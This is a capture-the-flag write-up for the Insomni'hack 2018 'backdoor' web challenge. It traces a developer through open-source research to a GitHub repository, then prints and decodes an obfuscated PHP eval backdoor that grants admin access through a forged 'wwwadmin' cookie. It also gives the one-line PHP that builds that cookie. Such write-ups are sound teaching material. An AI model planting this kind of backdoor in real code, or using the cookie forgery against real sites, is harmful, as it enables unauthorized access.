

# Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://tipi-hack.github.io/2018/03/25/insomni'hack-18-backdoor.html

# Title

[//]: <> (题目)

Hello shady hacker, I represent a web development company trying to grow in Geneva, but unfortunately we’re running into a lot of competition. One company in particular is stealing all our clients and we’d like you to hack them to obliterate their reputation and show that they are terrible developers. Here is one of their websites. Can you break in and prove that they suck?

# Content

[//]: <> (WriteUp内容)

When connecting to the webapp http://bd.insomniack.ch, we can found in the HTML code the name of the developer:
* James Karsmith

After some Googling, we finally found a Linkedin account from a web developer working in Geneve with the same name: 


When looking on a GitHub, we can find only one user with the company name:

https://github.com/WackyWebWizards

In the repository, we can see the developer created a backdoor in order to login as shown in the code below:

```php
<?php
if(isset($_COOKIE['wwwadmin'])) {
        $code="y0zTSK/KzEvLSSxJ1UhKLE41M4lPSU3OT0nVUIl39vf39nSNVi8vL09Myc3MU4/V1FSwtbVVUCo2Ti4yLolPSkzOTjEwKIovyY9PzMmJL0hMTy1WVNJUqObiVIkPdg0O9vT3i1bPTFGPVbBVMLRGEYUaCZGoBQA=";
        eval(gzinflate(base64_decode($code)));
}
?>
```

In order to retrieve the value of $code variable, we just modified ```eval``` function with ```echo``` and we obtained the following code:

```php
if(gzinflate(base64_decode($_COOKIE['wwwadmin'])) === "s3cr3t_backd00r_to_all_pages!") {
	$_SESSION['id'] = 1;
	$_SESSION['admin'] = 1;
}
```

So to sump up, in order to obtain admin access, we need to have a cookie name wwwadmin with the value “s3cr3t_backd00r_to_all_pages!” compressed with Gzip and encoded in base64. It’s just one line of PHP:

```php
echo base64_encode(gzdeflate("s3cr3t_backd00r_to_all_pages!"));
```

At the end we obtain the flag!!!

